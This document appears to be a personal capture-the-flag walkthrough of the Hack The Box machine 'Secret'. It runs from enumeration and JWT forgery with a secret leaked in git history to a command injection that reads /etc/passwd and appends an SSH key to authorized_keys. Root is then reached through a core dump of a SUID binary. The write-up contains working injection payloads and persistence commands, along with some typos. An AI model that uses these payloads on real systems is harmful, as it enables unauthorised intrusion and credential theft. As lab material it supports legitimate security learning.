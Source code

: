 Box Info secret.htb
OS: Linux \
IP: 10.10.11.120  \

Part I Skills learned::  
AppSec, JS \ 

---
**Enumeration::**

nmap -p- -A -oN secretports.txt ${IP} ::
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)             
|_http-title: DUMB Docs                                 
3000/tcp open  http    Node.js (Express middleware)     
|_http-title: DUMB Docs                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt ::
+ /docs, /api, /Docs, /API, /DOCS

ffuf -u http://secret.htb:FUZZ -w /usr/share/wordlists/subdomains-top1million-110000.txt:FUZZ | grep "Status: 200"
+ 80, #www, #mail, 080, 3000, #smtp #pop3

nikto -h http://secret.htb ::
+ Server: nginx/1.18.0 (Ubuntu)

http://secret.htb -> DL Source Code ::
+ Private.js UN:theadmin
+ Auth.js "l:30 const password:hashPaswrod -> l:23 const hashPaswrod = await bcrypt.hash(req.body.password, salt)"
+ popperjs/core v2.9.2
+ Bootstrap v5.0.2
+ http://secret.htb/docs#section-3 shows theadmin:root@dasith.works:Kekc8swFgD6zU (not SSH creds)
---
###**Step 1:**###
  + Create user::
```
# curl -i -X POST \                                                      
> -H 'Content-Type: application/json' \
> -d '{"name":"drtuser","email":"drt@dasith.works","password":"password123" \
> http:![](Screenshots/strapi_exploit_broken_shell.png)//10.10.11.120/api/user/login
```
# See ![create_user](Screenshots/secret_create_user.png) \

  + Login w/ user creds::
```
# curl -i -x POST \
> -H 'Content-Type: application/json' \
> -d '{"email":"drt@dasith.works","password":"password123" \
> http://10.10.11.120/api/user/login
```
# See ![login_user](Screenshots/login_secret.png) \

 `auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNmNzY0NzlhN2U2NDA0NjAzOTNjNjgiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDk4NjYxM30.UxFx2kUzbFY_Ymt_LWQGq9FzeSEJktenzCT4vBZ_WBA`

###** JWT validation::**###
 + using none algorithm [jwt.IO](JWT.io) 
   + change alg: to None, NONE, n0ne, nOne :: Nope
 + hijacking another user
   + No users we know run this :: Nope
 + brute forcing the key [jwt_bruteforcer] (https://lmammino.github.io/jwt-cracker/) #npm install --global jwt-cracker
   + jwt-cracker "<jwt-token>"  "abcdefghijklmnopqrstuwxyz" 6 :: Nope Token too complex.
 + log into /api/prv fails ::`curl -w '\n' -H "auth-token: <jwt-token>" http://<ip>/api/priv` ::
     {"role":{"role":"you are normal user","desc":"drtuser"}} # See ![failed_priv](Screenshots/failed_jwt_api_priv_secret.png)

##**Step 2:**## 
 +.git folder has git log # See ![git_log_changes](Screenshots/git_log_changes.png)
    + "removed .env for security reasons"
    + open .env file in vim :: to view changes
    + `:r! git diff HEAD~2` ::
see Before ![before](Screenshots/before_git_diff.png) && \
see After ![after](Screenshots/after_git_diff.png) \
```
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
``` 
   + Create new token && sign into /api/priv See ![newJWT_login](Screenshots/newjwt_login.png)
   + cmd injection with jwt authenticated token. See ![cmd_jwt](Screenshots/cmd_injection_w_jwt.png)
```
# curl -i \                                                                                                                                          3 ⨯
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
##File must be URL encoded for it to work with curl.
```

User is not a service therefore, a reverse shell is possible. 
    + First try to ssh 
    + Must attach SSH-public key to secret.htb server. Must be added to user's home dir to "authorized_machines"
`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P '' #4096 bits, -C comment, -f name of ssh-key and -P is null`
    + in order to make sure SSH-key sticks:
```
    mkdir -p /home/dasith/.ssh
    echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys 
```
create bash variable::
`export PUBLIC_KEY=$(cat secret.htb.pub)`

curl command

```
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
```
See ![200_ssh_key](Screenshots/200_add_ssh_key.png)

Key should be present now ssh into dasith! See ![ssh_dasith](Screenshots/ssh_dasith.png)
key:: f49628ceda5c0f784c6ae947154b764b

##**Root::**##
    + /opt has count with SUID
        ./count /root :: See ![](Screenshots/secret_count.png)
    + strace && gdb dont help much - suid doesnt stay gdb. strace map is private
+ Because valgrind.log is present, "core dump" is exploitable. valgrind is a suite of tools for debugging! lucky us!
See ![core_dump](Screenshots/core_dump_valgrind.png)
```
./count /root/root.txt
ctrl + z
ps && kill -BUS <PID#> ##Apparently -BUS is same as -SIGSEGV
fg ::
"Bus error (core dumped)
```
+ crash reports are in `/var/crash` && can be unpacked with `apport-unpack` w/ `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report`
+ binary files so xxd is needed.

---
##**References:**###
[jwt.IO](JWT.io) 
[guide](https://drt.sh/posts/htb-secret/)
[jwt-cracker](https://github.com/lmammino/jwt-cracker)
[valgrind](https://www.man7.org/linux/man-pages/man1/valgrind.1.html)

